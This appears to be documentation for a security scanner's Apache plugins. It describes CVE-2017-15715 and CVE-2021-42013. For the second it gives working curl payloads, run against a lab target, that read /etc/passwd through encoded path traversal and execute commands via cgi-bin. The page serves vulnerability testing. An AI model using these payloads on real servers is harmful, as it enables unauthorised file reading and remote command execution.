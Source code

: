 ```yaml
---
sidebar_position: 14
---
```

# Apache插件使用

## 1 CVE-2017-15715

**插件id：**

f7c170b3-77de-4af3-8551-6da4ce1bd471

**漏洞描述：**

Apache HTTPD换行解析漏洞，Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

**测试过程：**

暂无案例

## 2 CVE-2021-42013

**插件id：**

239d9646-1ca4-471e-a9b4-5ab0534f759b

**漏洞描述：**

Apache HTTP Server 2.4.50 路径穿越漏洞，攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

**测试过程：**

vulhub靶场访问测试网站，使用.%%32%65进行漏洞利用，成功读取到/etc/passwd

```go
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](/img/products/yakit/apache-4.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令

```go
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](/img/products/yakit/apache-5.png)

